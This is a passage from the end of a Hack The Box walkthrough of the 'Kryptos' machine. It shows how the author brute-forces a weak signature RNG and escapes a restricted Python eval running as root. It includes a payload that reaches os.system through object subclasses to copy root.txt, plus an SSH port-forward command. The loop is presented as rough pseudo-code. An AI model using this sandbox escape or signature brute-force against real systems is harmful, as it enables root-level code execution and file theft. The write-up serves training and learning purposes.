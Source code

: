 ```
It is running and as root. So in order to exploit this we need to exploit the ```eval``` function. We also need to exploit the the signature function, ```secure_rng```, because they need to match in order for code to function. If you copy the code locally and make some changes to the ```secure_rng``` function, we can see that the seed pool is has some repeating characters, meaning its a fairly small pool. We can try and repeat until our keys match up, in a brute force attempt. 

We can use a simple ```while``` statement to keep the loop going and parse the responses with the ```response``` library. We have some pseudo code that looks like this:
```
result = "no dice"
attempts = 0
expr = malicous_code_here

while result == 'no dice':
    seed = random.getrandbits(128)
    rand = secure_rng(seed)
    attempts = attempts + 1
    signature = sign(expr)
    req = requests.post('http://127.0.0.1:81/eval', json={'expr': expr, 'sig': sig})
print 'Success'
```

Now that we know that the signature can be matched up, we need to look at exploiting the ```eval``` function. Normally, when the ```eval``` function is called with ```Builtin functions``` set to ```None```. It prohibits the standard escalation technique. However [this resource](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html) says otherwise. We will use this line of code instead so that we can copy the root.txt file out.

```
expr = "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('cp /root/root.txt /tmp/1 && chmod 777 /tmp/1')"
```

We can then combine the copy of the kryptos.py we took from the target machine and replicated the signature function to match itself, append what we've learned about ```eval``` function and get our ```root.txt``` with some clever port forwarding.

We forward our port locally to remote port 81: ```ssh -L 81:localhost:81 rijndael@10.10.10.129```. Once that is done, we run our modified kryptos.py script and wait fro the file ```1``` to show up in the ```/tmp/``` directory.

{{< figure src="__GHOST_URL__/content/images/2019/09/image-61.png" >}}

We did it. We have the root flag! I hope you enjoyed this box as much as I did.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

